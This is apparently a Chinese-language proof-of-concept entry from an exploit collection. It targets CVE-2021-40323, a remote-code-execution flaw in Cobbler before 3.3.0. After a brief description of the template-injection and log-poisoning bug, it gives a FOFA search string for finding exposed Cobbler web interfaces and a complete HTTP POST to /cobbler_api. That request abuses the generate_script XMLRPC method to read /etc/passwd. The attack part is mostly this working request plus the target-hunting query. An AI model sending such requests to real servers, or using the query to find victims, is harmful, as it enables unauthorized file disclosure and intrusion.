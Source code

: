 ## Cobbler存在远程命令执行漏洞(CVE-2021-40323)

Cobbler是一款专注于自动化Linux系统安装和配置管理的工具，可帮助管理员快速部署服务器并确保配置一致性，支持多种操作系统和提供多项功能强大的特性，如Kickstart配置、PXE引导、DHCP管理等，提升系统管理效率和可靠性。

该产品在3.3.0之前版本存在远程代码执行漏洞，该漏洞源于外部输入数据构造代码段的过程中，网络系统或产品未能正确过滤其中的特殊元素，攻击者可利用该漏洞通过特制的XMLRPC方法记录日志文件以进行模板注入，从而导致日志中毒和远程代码执行。

## fofa
```
"Cobbler Web Interface"
```


## poc
```
POST /cobbler_api HTTP/1.1
Host: xxx
Content-Length: 0
Content-Type: text/xml
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

<?xml version='1.0'?>
        <methodCall>
          <methodName>generate_script</methodName>
          <params>
            <param>
              <value>
                <string>centos6-x86_64</string>
              </value>
            </param>
            <param>
              <value>
                <string></string>
              </value>
            </param>
            <param>
              <value>
                <string>/etc/passwd</string>
              </value>
            </param>
          </params>
        </methodCall>
```

![image](../../images/bbe19773-779d-4591-b957-28cfc9bf8bce.png)
